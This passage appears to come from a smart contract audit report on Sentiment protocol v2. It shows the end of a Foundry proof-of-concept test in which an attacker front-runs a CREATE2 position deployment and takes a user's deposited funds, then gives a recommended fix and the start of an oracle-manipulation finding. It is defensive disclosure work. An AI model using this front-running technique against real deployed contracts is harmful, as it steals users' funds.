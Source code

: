 ```solidity
    // now the user's transactions are processed, with the deployment reverting but deposit succeeding
    vm.startPrank(user);
    vm.expectRevert();
    manager.process(predicted, deployAction);
    manager.process(predicted, depositAction);
    vm.stopPrank();

    // finally the attacker can revoke auth and has stolen funds
    vm.prank(attacker);
    manager.toggleAuth(user, predicted);
    assert(mockToken.balanceOf(predicted) == 1e18);
    assert(manager.ownerOf(predicted) == attacker);
}
```

### Recommendation

Rather than passing the `salt` to CREATE2 directly, hash it with the `owner` so that only a given owner is able to deploy to a specific address.

```diff
    // positionType -> position type of new position to be deployed
    // owner -> owner to create the position on behalf of
    // salt -> create2 salt for position
    (address owner, uint256 positionType, bytes32 salt) = abi.decode(data, (address, uint256, bytes32));

+   salt = keccak256(abi.encodePacked(owner, salt));

    // revert if given position type doesn't have a register beacon
    if (beaconFor[positionType] == address(0)) revert Errors.NoPositionBeacon();

    // create2 a new position as a beacon proxy
    address position = address(new BeaconProxy{salt: salt}(beaconFor[positionType], ""));
```

### Review

Fixed as recommended in [PR #138](https://github.com/sentimentxyz/protocol-v2/pull/138).

# [H-02] `isKnownOracle` doesn't protect against oracle manipulation

The `isKnownOracle` mapping in `RiskEngine.sol` ensures that the oracles chosen by pool operators are valid and cannot be used to manipulate user balances and debts.

```solidity
function setOracle(address pool, address asset, address oracle) external {
    // revert if the oracle is not recognized by the protocol
    if (!isKnownOracle[oracle]) revert Errors.UnknownOracle();

    // only pool owners are allowed to set oracles
    if (msg.sender != Pool(pool).owner()) revert Errors.onlyPoolOwner();

    // update asset oracle for pool
    oracleFor[pool][asset] = oracle;
}
```
